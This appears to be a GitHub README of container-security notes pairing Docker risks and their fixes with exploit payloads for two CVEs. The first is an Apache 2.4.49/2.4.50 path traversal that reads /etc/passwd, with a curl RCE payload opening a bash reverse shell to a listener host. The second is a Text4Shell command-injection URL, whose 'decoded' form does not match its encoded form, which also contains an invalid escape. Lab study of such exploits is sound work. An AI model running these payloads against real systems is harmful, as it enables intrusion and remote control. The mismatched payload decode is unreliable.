 # Container-Security (Docker & Kubernetes)
## Docker: OWASP Top 10
<details> 
<summary> 1: Host OS Vulnerabilities </summary>
  
- If Host OS have vulnerabilities, attacker can use it to gain access to containers and apps running inside them.
- Resolution: Regular patching of host OS, Usage of IDS, Firewall, Implement strict access controls

#### CVE-2021-42013 (Path Traversal + RCE + Reverse Shell Attack)
- An attacker could use a path traversal attack to map URLs to files outside the directories. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these pathes, this could allow for remote code execution.
- This issue affects Apache 2.4.49 and Apache 2.4.50 and not earlier versions.
- Path Traversal payload - ``` http://172.17.0.2:80/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd ```
- Actual payload After double URL decode - ``` http://172.17.0.2:80/cgi-bin/../../../../../../../etc/passwd ```
- Netcat listening on ``` $ nc -lvnp 4444  ```
- RCE Payload: ``` $ curl -s --path-as-is -d "echo Content-Type: text/plain; echo; bash -i >& /dev/tcp/172.17.0.1/4444 0>&1" "http://172.17.0.3:80/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/bash" ```
- References: https://github.com/twseptian/cve-2021-42013-docker-lab
</details>

<details> 
<summary> 2: Insecure Container Images </summary>
  
- By compromising the insecure container images, attacker can gain access to applications. 
- Resolution: Implementation of Image Scannings (To identify vulnerabilities) and Signature Validations (to ensure Images are Trusted)
- Best practises: Use minimal base images that conbtain only necessary libraries

#### CVE-2022-42889 (Command Injection)
- The vulnerability exists in the StringSubstitutor interpolator object. An interpolator is created by the StringSubstitutor.createInterpolator() method and will allow for string lookups as defined in the StringLookupFactory. This can be used by passing a string “${prefix:name}” where the prefix is the aforementioned lookup. Using the “script”, “dns”, or “url” lookups would allow a crafted string to execute arbitrary scripts when passed to the interpolator object.
- This issue affects Apache Commons Text versions 1.5 through 1.9.
- Cmd Injection URL Payload - ```https://your-target.com/exploit?search=%24%7Burl%3AUTF-8%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27touch+%2Ttmp%2Fhelloworld%27%29%7d ```
- Actual payload after decode - ```https://your-target.com/exploit?search=${script:javascript:java.lang.Runtime.getRuntime().exec('touch helloworld')} ```
- After successful execution a file helloworld will be created in app server.
- References: https://github.com/devenes/text4shell-cve-2022-42889
</details>
